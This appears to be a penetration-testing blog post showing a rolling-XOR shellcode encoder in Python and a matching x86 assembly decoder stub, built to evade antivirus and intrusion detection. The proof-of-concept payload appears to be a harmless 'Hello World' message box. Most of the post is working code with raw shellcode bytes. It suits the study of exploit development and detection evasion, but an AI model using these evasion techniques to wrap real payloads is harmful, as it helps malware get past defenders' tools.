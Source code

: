 ```yaml
---
layout: post
title: Custom Shellcode Encoder/Decoder (Rolling XOR)
category: Pentest
tags: encoder decoder ebp esp evasion shellcode
---
```


Lets assume, you're in middle of a penetration test and were trying to gain access to a machine with Anti-Virus installed. Unfortunatuly, on every attempt you made AV was able to identify and block you from excuting the payload making you drive crazy and frustrating...

Besides the fact that most of the well known encoders are been detected by modern AV and IDS products. In such scenario using of custom encoders would be handy.

<div class="message">
In this article, I'd be creating a custom encoding scheme based on simple XOR Operations called Rolling XOR. this technique could be helful in evading Anti-Virus and Intrusion Detection Systems(IDS) where necessary.
</div>

----

<strong>What is Rolling XOR Encoding Scheme..? </strong>

This encoding scheme basically uses a radomly generated key and performs the XOR operation on the first byte in the given array and uses the result as the input(new XOR key) to perform XOR operation with the next consecutive byte and so on.


#### Rolling XOR Python Encoder

1. Generates a random byte and use it as the base/key to perform the XOR operations.
2. Places the generated XOR key as first byte in the new array "xorout_f1/f2".
3. Performs XOR between the first byte in array "xorout_f1/f2" and first byte in "code" variable and append result to new array "xorout_f1/f2"
4. This basically takes the result of previous XOR operation as the input(byte) and performs XOR operation with the next byte and same happens with all other bytes.
5. Continues the XOR operation till the last byte in "code" variable and final result will be saved in new array "xorout_f1/f2".

{% highlight python %}

#Author: Greycel
#Website: https://greycel.github.io
#!/usr/bin/python

import os
import sys
import random

code = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24\x2C\x57\x68\x72\x6c\x64\x2e\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8B\xDC\x57\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24\x40\xFF\x54\x24\x40\x57\xFF\xD0")

xorout_f1 = []
xorout_f2 = []
rand_key = random.randint(1,255)
xorout_f1.append(rand_key)
xorout_f2.append(rand_key)
print "\n[*] Random XOR key used: " '0x%02x' %rand_key + " " + str(xorout_f1)

for i in range(0, len(code)):  
    j = ord(code[i]) ^ xorout_f1[i]
    k = ord(code[i]) ^ xorout_f2[i]
    xorout_f1.append(j)
    xorout_f2.append(k)
xorout_f1 = (",".join("0x%02x" %c for c in xorout_f1))
xorout_f2 = ("".join("\\x%02x" %c for c in xorout_f2))

print "==================================="
print "Total Length: " + str(len(xorout_f2)/4) + "bytes"
print "\n[*] Rolling Xor Output F1: \n%s "  %xorout_f1
print "\n[*] Rolling Xor Output F2: \n%s" %xorout_f2
{% endhighlight %}
<img src="{{ site.baseurl }}/public/rollingXOR_01.jpg">

----


### Decoder Stub

Following is our decoder stub which helps us to decode the encoded shellcode. Here we will be using JMP-CALL-POP technique, to get to our encoded shellcode and thereafter we decode the shellcode back to original at runtime and execute it.


{% highlight python %}
; Author:   Greycel
; Website:  https://greycel.github.io
; This decodes the encoded Rolling XOR scheme back to its original.
; To avoid NULL bytes, update the Counter instructions "MOV CL, len",
;  "DEC CL", "CMP CL,DL" as per the length of code variable .


global _start

section .text
_start:
        jmp call_code

decoder:                   ;Start of XOR Operation
        POP ESI            ;Pointer to Shellcode
        PUSH ESI           ;Save pointer for later use
        MOV EDI,ESI        ;Copy pointer address in EDI
        XOR ECX,ECX        ;Zeroout the registers ECX, EDX
        MOV EDX,ECX
        MOV CL,len         ;Setup counter (Total Length)
loop1:
        MOV AL,[ESI]       ;Take the first byte of shellcode
        MOV BL,[ESI+1]     ;Take the second byte of shellcode
        XOR AL,BL          ;Perform XOR and save result in AL
        MOV [EDI],AL       ;Replace the first bytes of EDI with the result
        INC ESI            ;Increment ESI and EDI
        INC EDI
        DEC CL                ;Decrement the Counter
        CMP CL,DL             ;Check for condition
        JNZ loop1             ;Jump to loop1 if condition has not met
        mov byte[ESI-1],0x90  ;Replace the last trail byte with NOP
        JMP code


call_code:
        call decoder
        code: db 0xaf,0x53,0x60,0xb2,0x00,0x30,0x54,0xab,0x99,0xc3,0x48,0x1a,0x16,0x9d,0xcf,0xdb,0x50,0x22,0x0a,0x39,0xf0

[.....]

        0xf4,0xf7,0x9f,0xcf,0xbd,0xd2,0xb1,0xd9,0x9c,0xe4,0x8d,0xf9,0xad,0x52,0x26,0x02,0x42,0xbd,0xe9,0xcd,0x8d,0xda,0x25,0xf5
        len:    equ $-code
{% endhighlight %}


Having the above decoder stub ready, with the help of "nasm" compile the assembly code and generate the corresponding object file. Then use the "Objdump" to extract the decoding stub along with encoded shellcode appended to it. For commands to compile and extract shellcode <a href="/2017/04/15/Handy-Commands-ExpDev/">Check</a>.

<img src="{{ site.baseurl }}/public/rollingXOR_decode_stub_out.jpg">

----



### Executing the Shellcode on Windows

For POC purpose, I've used the encoded message box shellcode which would eventually gets decoded at runtime with our decoded stub and executes the Hello World Message Box Popup. Following is our actual decoder stub in debugger without the encoded shellcode

<img src="{{ site.baseurl }}/public/Decoder_Stub_in_DBG.jpg">


Encoded shellcode within debugger. As per the decoder stub instruction "POP ESI" will pop the address (0x00446028) of encoded shellcode into "ESI" register, which is where the encoded shellcode begins.
<img src="{{ site.baseurl }}/public/Encoded_Shellcode_in_DBG.jpg">


By the time the decoder stub completes its execution we will have our actual shellcode ready to be executed from address (0x00446028) which is the beginning of shellcode and continues to execute our payload popping the "Hello World" message box.
<img src="{{ site.baseurl }}/public/Decoded_Shellcode_in_DBG.jpg">


<img src="{{ site.baseurl }}/public/Shellcode_execution_in_DBG.jpg">
